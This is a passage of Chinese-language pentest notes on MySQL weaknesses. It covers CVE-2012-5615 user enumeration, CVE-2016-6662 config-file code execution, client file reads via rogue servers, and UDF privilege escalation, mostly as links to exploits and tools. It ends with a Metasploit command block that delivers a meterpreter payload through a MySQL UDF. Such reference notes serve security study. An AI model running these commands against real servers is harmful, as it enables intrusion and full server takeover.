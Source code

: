 **CVE-2012-5615 Oracle MySQL Server 5.5.19 用户名枚举漏洞**
- 漏洞描述

    MySQL 5.5.19 以及其他版本和 MariaDB 5.5.28a，5.3.11，5.2.13，5.1.66 以及其他版本中存在漏洞，该漏洞源于不同时间延迟产生不同错误消息取决于用户名是否存在。远程攻击者利用该漏洞枚举有效的用户名。

- POC | Payload | exp
    - [MySQL - Remote User Enumeration](https://www.exploit-db.com/exploits/23081)
    - [MySQL 5.1/5.5 (Windows) - 'MySQLJackpot' Remote Command Execution](https://www.exploit-db.com/exploits/23073)

**CVE-2016-6662**
- 漏洞描述

    Oracle MySQL 中的配置文件（my.cnf）存在远程代码执行漏洞。攻击者（本地或远程）可通过授权访问 MySQL 数据库（网络连接或类似 phpMyAdmin 的 Web 接口）或 SQL 注入方式，利用该漏洞向配置文件中注入恶意的数据库配置，导致以 root 权限执行任意代码，完全控制受影响的服务器。以下版本受到影响：Oracle MySQL 5.5.52 及之前的版本，5.6.x 至 5.6.33 版本，5.7.x 至 5.7.15 版本；MariaDB 5.5.51 之前的版本，10.0.27 之前的 10.0.x 版本，10.1.17 之前的 10.1.x 版本；Percona Server 5.5.51-38.1 之前的版本，5.6.32-78.0 之前的 5.6.x 版本，5.7.14-7 之前的 5.7.x 版本。

- 相关文章
    - [【技术分享】CVE-2016-6662：Mysql远程代码执行/权限提升技术分析正式版](https://www.anquanke.com/post/id/84557)

---

## MySQL 文件读

**相关文章**
- [通过MySQL LOAD DATA特性来达到任意文件读取](https://xz.aliyun.com/t/3973)
- [Mysql Read Client's File](https://y4er.com/post/mysql-read-client-file/)

**相关工具**
- [Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)
- [BeichenDream/MysqlT](https://github.com/BeichenDream/MysqlT) - 伪造 Myslq 服务端, 并利用 Mysql 逻辑漏洞来获取客户端的任意文件反击攻击者

---

## Mysql提权

**相关文章**
- [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

### UDF 提权

**相关文章**
- [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

**POC | Payload | exp**
- [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
- [T3st0r-Git/HackMySQL](https://github.com/T3st0r-Git/HackMySQL) - Using To MySQL Elevate Privileges.
- MSF 模块
    ```bash
    use exploit/multi/mysql/mysql_udf_payload
    set RHOSTS [ip]
    set USERNAME [user]
    set PASSWORD [pass]
    set target 0
    set payload windows/meterpreter/bind_tcp
    set RHOST [ip]
    set LPORT 4444
    exploit
    ```
